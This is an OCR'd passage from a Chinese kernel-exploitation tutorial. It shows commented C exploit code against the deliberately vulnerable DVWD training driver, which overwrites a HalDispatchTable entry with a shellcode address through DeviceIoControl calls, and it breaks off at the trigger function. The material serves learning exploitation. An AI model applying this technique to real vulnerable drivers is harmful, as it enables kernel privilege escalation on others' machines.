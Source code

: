 5.利用代码
------

* * *

这是DVWDDriver作者开发的利用代码.当我读完那些代码时,我已经添加了许多注释以确保完全理解它们.随着上一次利用的进行,这应该变得更容易理解,这里没有什么需要注意的了=)

```
// ----------------------------------------------------------------------------
// Arbitrary Memory Overwrite exploitation ------------------------------------
// ---- HalDispatchTable pointer overwrite method -----------------------------
// ----------------------------------------------------------------------------


// Overwrite kernel dispatch table HalDispatchTable's second entry:
//  - STORE the address of the shellcode (pointer in kernelland, points to userland)
//  - OVERWRITE the second pointer in the HalDispatchTable with the address of the shellcode
BOOL OverwriteHalDispatchTable(ULONG_PTR HalDispatchTableTarget, ULONG_PTR ShellcodeAddrStorage) {

 HANDLE hFile;
 BOOL ret;
 DWORD dwReturn;
 ARBITRARY_OVERWRITE_STRUCT overwrite;

 // Open handle to the driver
 hFile = CreateFile(L"\\\\.\\DVWD", 
        GENERIC_READ | GENERIC_WRITE, FILE_SHARE_WRITE | FILE_SHARE_READ | FILE_SHARE_DELETE, 
        NULL, 
        OPEN_EXISTING, 
        0, 
        NULL);

 if(hFile != INVALID_HANDLE_VALUE) {

  // DEVICEIO_DVWD_STORE
  // -> store the address of the shellcode into kernelland (GlobalOverwriteStruct) 
  overwrite.Size = 4;
  overwrite.StorePtr = (PVOID)&ShellcodeAddrStorage;
  ret = DeviceIoControl(hFile, DEVICEIO_DVWD_STORE, &overwrite, 0, NULL, 0, &dwReturn, NULL);

  // DEVICEIO_DVWD_OVERWRITE 
  // -> copy the content of the buffer in kernelland (the address previously added)
  // to the location HalDispatchTableTarget (second entry in the HalDispatchTable)
  overwrite.Size = 4;
  overwrite.StorePtr = (PVOID)HalDispatchTableTarget;
  ret = DeviceIoControl(hFile, DEVICEIO_DVWD_OVERWRITE, &overwrite, 0, NULL, 0, &dwReturn, NULL);

  CloseHandle(hFile);

  return TRUE;
 }

 return FALSE;  
}



typedef NTSTATUS (__stdcall *_NtQueryIntervalProfile)(DWORD ProfileSource, PULONG Interval);
BOOL TriggerOverwrite32_NtQueryIntervalProfileWay() {

 ULONG dummy = 0;
 ULONG_PTR HalDispatchTableTarget;
 ULONG_PTR ShellcodeAddrStorage; 

 _NtQueryIntervalProfile NtQueryIntervalProfile;
```